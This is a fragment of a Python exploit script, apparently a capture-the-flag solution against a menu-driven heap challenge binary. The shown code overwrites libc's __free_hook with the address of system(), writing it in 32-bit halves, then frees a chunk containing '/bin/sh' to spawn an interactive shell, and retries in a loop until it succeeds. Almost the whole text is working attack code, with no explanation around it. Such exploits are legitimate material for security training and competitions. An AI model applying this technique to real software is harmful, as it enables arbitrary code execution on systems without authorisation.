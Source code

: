 ```python
	free_hook=libc.sym['__free_hook']+libcbase

	sla('1 for in place: ','0')
	sla('New value: ','3405691582')
	free(0)



	add(1,4,'11')
	cho(2)
	sla('Index:',str(1))
	sla('1 for in place: ','0')
	sla('New value: ','1')
	sla('1 for in place: ','1')
	sla('New value: ',str(free_hook&0xffffffff))
	sla('1 for in place: ','1')
	sla('New value: ',str(free_hook>>32))

	sla('1 for in place: ','0')
	sla('New value: ','3405691582')



	add(2,4,'11')
	cho(2)
	sla('Index:',str(1))
	sla('1 for in place: ','1')
	sla('New value: ',str(system&0xffffffff))
	sla('1 for in place: ','1')
	sla('New value: ',str(system>>32))
	
		sla('1 for in place: ','0')
	sla('New value: ','3405691582')

	add(3,3,'/////////////////////////////////////////////bin/sh')
	ia()

while 1:
	try:
		exp()
	except:
		pass
```

